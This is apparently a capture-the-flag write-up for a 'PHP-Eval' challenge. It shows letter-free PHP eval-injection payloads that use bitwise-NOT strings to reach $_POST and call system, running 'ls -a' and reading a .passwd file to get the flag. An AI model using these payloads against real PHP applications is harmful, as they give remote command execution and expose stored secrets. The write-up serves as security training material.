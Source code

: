 ```yaml
---
layout: default
title: PHP-Eval
---
```


Here the challenge is very similar to https://avishaigonen123.github.io/CTF_writeups/websec.fr/level14.html.
We can't insert any letters.

In the previous challenge I referred to, I gave this:
```
${~'%A0%B8%BA%AB'}{0}('DD');
``` 
This stands for: `$_GET[0]('DD')`, because `~'%A0%B8%BA%AB'` is `_GET`, and then when doing `${_GET}{0}` is like `$_GET[0]`, and lastly we inject `('DD')` to activate the function we're gonna inject inside param `0`.

In my case, I wanted to use `POST`, so this will be done using `hex_dump` function.

We use this hex_dump php function, which is took from here [stackoverflow - php hexdump function](https://stackoverflow.com/a/4225813)
```php
function hex_dump($data, $newline="\n")
{
  static $from = '';
  static $to = '';
  
  static $width = 16; # number of bytes per line
  
  static $pad = '.'; # padding for non-visible characters
  
  if ($from==='')
  {
    for ($i=0; $i<=0xFF; $i++)
    {
      $from .= chr($i);
      $to .= ($i >= 0x20 && $i <= 0x7E) ? chr($i) : $pad;
    }
  }
  
  $hex = str_split(bin2hex($data), $width*2);
  $chars = str_split(strtr($data, $from, $to), $width);
  
  $offset = 0;
  foreach ($hex as $i => $line)
  {
    echo sprintf('%6X',$offset).' : '.implode(' ', str_split($line,2)) . ' [' . $chars[$i] . ']' . $newline;
    $offset += $width;
  }
}
```

![hexdump bitwise](./images/PHP-Eval_hexdump.png)

Okay, so this will be our payload:
```
input=${~'%a0%af%b0%ac%ab'}{0}(1337);&0=strlen
```
And of course it prints `4`, because this is the process that's been done:
```
${_POST}{0}(1337);&0=strlen
```
```
$_POST[0](1337);&0=strlen
```
```php
strlen(1337)
```
```php
eval("print strlen(1337)")
```
![strlen](./images/PHP-Eval_strlen.png)

Now, let's inject another `_POST`, for the function param:
```
input=${~'%a0%af%b0%ac%ab'}{0}(${~'%a0%af%b0%ac%ab'}{1});&0=strlen&1=myParameter
```
The result is `11`, `strlen('myParameter')`.

Now, let's give the `system` function.

I tried to create a reverse shell, but didn't manage to, maybe they blocked it. Whatever, let's just poke around and find the flag.

This is our payload, we go for `ls -a`
```
input=${~'%a0%af%b0%ac%ab'}{0}(${~'%a0%af%b0%ac%ab'}{1});&0=system&1=ls -a
```

The output:
```bash
.
..
._nginx.http-level.inc
._nginx.server-level.inc
._perms
._php-fpm.pool.inc
.git
.passwd
ch57.s
index.php
index.php
```

Now, let's read `.passwd`

And we got: 
```
M!xIng_PHP_w1th_3v4l_L0L
```

![FINAL](./images/PHP-Eval_FINAL.png)

**Flag:** **_`M!xIng_PHP_w1th_3v4l_L0L`_**